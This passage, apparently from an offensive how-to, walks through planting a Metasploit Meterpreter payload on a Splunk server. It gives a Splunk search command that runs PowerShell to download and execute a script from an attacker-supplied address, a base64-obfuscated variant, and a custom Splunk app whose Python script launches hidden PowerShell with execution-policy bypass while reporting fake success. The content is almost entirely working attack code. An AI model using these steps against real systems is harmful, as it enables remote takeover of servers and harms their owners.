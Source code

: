 ```
exploit -j -z
```

## Step 3: Deploy the Payload to Splunk

### Method 1: Using Splunk's Script Command (Windows)

```
| script powershell
IEX (New-Object Net.WebClient).DownloadString('http://YOUR_IP/splunk_win_payload.ps1')
```

Alternative obfuscated approach:
```
| script powershell
$payload = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('BASE64_FROM_SPLUNK_WIN_PAYLOAD_B64'))
Invoke-Expression $payload
```

### Method 2: Using a Custom Splunk App

Create a custom app with a Python script that loads the Meterpreter payload:

1. Create the app structure:
```
msf_tool/
├── bin/
│   └── msf_trigger.py
├── default/
│   └── commands.conf
├── metadata/
│   └── default.meta
```

2. In `msf_trigger.py` (for Windows):
```python
import splunk.Intersplunk
import subprocess
import os
import base64
import sys

def main():
    try:
        # Base64-encoded Meterpreter payload
        payload = "BASE64_FROM_SPLUNK_WIN_PAYLOAD_B64"
        
        # Decode the payload
        decoded = base64.b64decode(payload)
        
        # Execute with PowerShell
        powershell_cmd = f'powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Command "{decoded}"'
        subprocess.Popen(powershell_cmd, shell=True)
        
        # Return dummy results
        results = []
        results.append({"message": "Command executed successfully"})
        splunk.Intersplunk.outputResults(results)
        
    except Exception as e:
        results = []
        results.append({"error": str(e)})
        splunk.Intersplunk.outputResults(results)

```